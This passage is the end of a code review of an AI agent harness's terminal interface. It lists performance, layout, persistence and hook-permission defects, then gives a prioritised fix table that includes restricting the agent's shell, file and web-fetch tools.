When output and input ports share the same column, `hDir = 0` and the wire goes right 1 cell, then vertical, then left 1 cell — an unnecessary zig-zag. The correct behavior is a straight vertical line.

**Remediation:** Add an explicit `from.col === to.col` case returning a pure vertical wire (similar to the existing `from.row === to.row` same-row case).

---

### D-11 — `wrapLines()` allocates on every render frame

**File:** `src/tui/panels/SessionPanel.ts:167`

Called from `render()` which fires on every `onUpdate()` callback, including every single streaming text delta. Each call allocates a new `ChatLine[]` from the full `this.lines` array.

**Remediation:** Memoize: recalculate `wrappedLines` only when `this.lines` or `this.rect.width` changes.

---

### D-12 — `computeLayout` called twice per render

**File:** `src/app.ts:98–101, 56–61`

`render()` calls `computeLayout()` at the top, then sets `panel.rect` again mid-function. Layout was already computed in `initPanels()`. Layout only changes on resize, but is recomputed every frame.

**Remediation:** Cache the current layout in `App`, invalidate on `resize`. Minor optimization.

---

### D-13 — No persistence layer

Canvas state, session history, and agent configurations are all in-memory only. There is no save/load mechanism. Closing the app loses all work.

**Remediation (Wave 3/5):** Serialize `CanvasState` to `af-plan.json`; persist `Session.history` to a `.ai/sessions/` directory.

---

### D-14 — Hooks require `chmod +x`; no doctor check

`hooks.ts` uses `execFile` which requires the hook file to be executable. `runDoctor()` checks for the `.ai/` directory but not for the executability of hook files. A user who creates a hook file but forgets `chmod +x` will get an opaque EACCES error from within the agent loop.

**Remediation:** Add a hook directory scan to `runDoctor()` that reports any `.sh` file that is not executable.

---

## 11. Recommendations Priority List

| Priority | Item | Effort | Wave |
|----------|------|--------|------|
| 🔴 P0 | Restrict BashTool to project CWD; add PreToolUse confirmation | 1h | now |
| 🔴 P0 | Restrict ReadTool/WriteTool to relative paths within project | 1h | now |
| 🔴 P0 | Block private IPs in WebFetchTool; add 1MB response cap | 1h | now |
| 🟡 P1 | Add AbortController to SessionPanel; bind to Ctrl+C | 2h | now |
| 🟡 P1 | Cap `SessionPanel.lines` at 2000 and cache `wrapLines` | 1h | now |
| 🟡 P1 | Fix hardcoded `v0.2.0` version string | 15m | now |
| 🟡 P1 | Use monotonic counter for block IDs | 15m | now |
| 🟠 P2 | Implement concurrent tool dispatch (`Promise.allSettled`) | 3h | Wave 3 |
| 🟠 P2 | Fix pure-vertical wire routing when `from.col === to.col` | 30m | now |
| 🟠 P2 | Wire `AgentsPanel` to `SessionPanel` streaming events | 1h | now |
| 🟠 P2 | Add hook executability check to `runDoctor` | 30m | now |
| 🟠 P2 | Encode `ghostRow/ghostCol` into `DragState` union | 1h | now |
| 🔵 P3 | Wire-drawing gesture (port drag-connect) | 4h | Wave 3 |
| 🔵 P3 | Canvas scroll/pan | 3h | Wave 3 |
| 🔵 P3 | Registry tab placeholder | 30m | now |
| 🔵 P3 | Persist `CanvasState` to `af-plan.json` | 3h | Wave 3 |
| 🔵 P3 | Message queue when `streaming` is true | 2h | Wave 3 |

---

*Review generated from full source read of all 37 files in agentfactory-harness @ v0.3.0 (Wave 0–2 complete).*
